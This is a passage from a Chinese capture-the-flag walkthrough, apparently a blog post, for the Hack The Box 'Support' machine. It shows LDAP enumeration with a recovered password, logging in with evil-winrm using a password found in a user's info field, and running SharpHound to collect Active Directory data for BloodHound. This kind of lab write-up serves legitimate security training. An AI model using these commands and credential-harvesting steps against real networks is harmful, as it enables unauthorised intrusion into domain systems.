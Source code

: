 通过刚刚的逆向分析，机子开启了LDAP协议，现在我们用刚刚生成的凭证来枚举信息
```
ldapsearch -x -H ldap://dc.support.htb -D 'SUPPORT\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=SUPPORT,DC=HTB" | tee ldap_dc.support.htb.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/21e562d524414cacb4724b4350c72c55.png)



![在这里插入图片描述](https://img-blog.csdnimg.cn/d007f957c9934fbc9b4905702eda687a.png)

在这里可以看到用户账户的详细信息，通常来说info字段都是空的，这可能是用户的密码


然后用evil-winrm连接机子
```
evil-winrm -i 10.10.11.174 -u "support" -p 'Ironside47pleasure40Watchful'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/74f823b1688c4110a8d9dbf0d1eaf928.png)

成功获取机子的用户权限

![在这里插入图片描述](https://img-blog.csdnimg.cn/bb78fd306ebb4c63803f9e0e41ba6ef2.png)
# 提权
## 信息搜集
现在我们可以访问DC服务器的命令行，需要枚举AD权限和错误配置的文件
工具：
```
https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe
```
上传文件
```
upload SharpHound.exe
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/87fbb8fc11b9422db49cc6ed522b09ed.png)

运行程序搜集服务器AD数据
```
./SharpHound.exe --memcache -c all -d SUPPORT.HTB -DomainController 127.0.0.1
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/7bffa6dcadfc490e930f610202f27163.png)
将这个zip文件下载到本地
```
download 20221022060134_BloodHound.zip
```
然后下载配套的分析工具，将这个zip文件导入进去
```
apt-get install bloodhound
neo4j console 
```
然后访问
```
http://localhost:7474/browser/
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/c229c6f7212a4c458e10bb671115f9d1.png)

